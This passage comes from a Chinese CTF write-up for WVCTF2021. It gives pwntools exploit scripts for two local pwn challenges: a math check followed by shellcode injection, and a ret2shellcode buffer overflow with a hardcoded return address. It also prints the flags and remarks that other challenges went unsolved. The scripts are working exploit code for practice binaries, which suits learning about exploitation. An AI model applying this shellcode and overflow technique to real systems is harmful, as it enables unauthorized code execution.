 然后可以执行 shellcode

```python
#!/usr/bin/env python

from pwn import *
a = process("./mymath")
context.arch = 'amd64'

shellcode = shellcraft.sh();

a.sendlineafter("== 1", '1');
a.sendlineafter("x = ?", '6');
a.sendlineafter("== ?", '0.30000000000000004')
pause()
a.sendlineafter("something:", asm(shellcode))
a.interactive()

```

`flag{M4th_4nd_5h31lCode}`

#### Pwn1(小渔村)

ret2shellcode

```python
from pwn import *
a = process("./chicken_or_egg")
context.arch = 'amd64'
context.log_level = 'debug'

shellcode = asm(shellcraft.sh())
payload = 'a' * 0x28 + p64(0x404060)

a.send(shellcode)
sleep(0.1)
pause()
a.send(payload)
a.interactive()
```

`flag{Ly_cam3_f1rst}`

#### bbheap

没人做，下线了

### Crypto

全没人做，下线了

> 7k👴：老子花了一个上午复习了一轮 RSA，结果这个 B 出的题我做不出来

## WVCTF2021 圆满结束
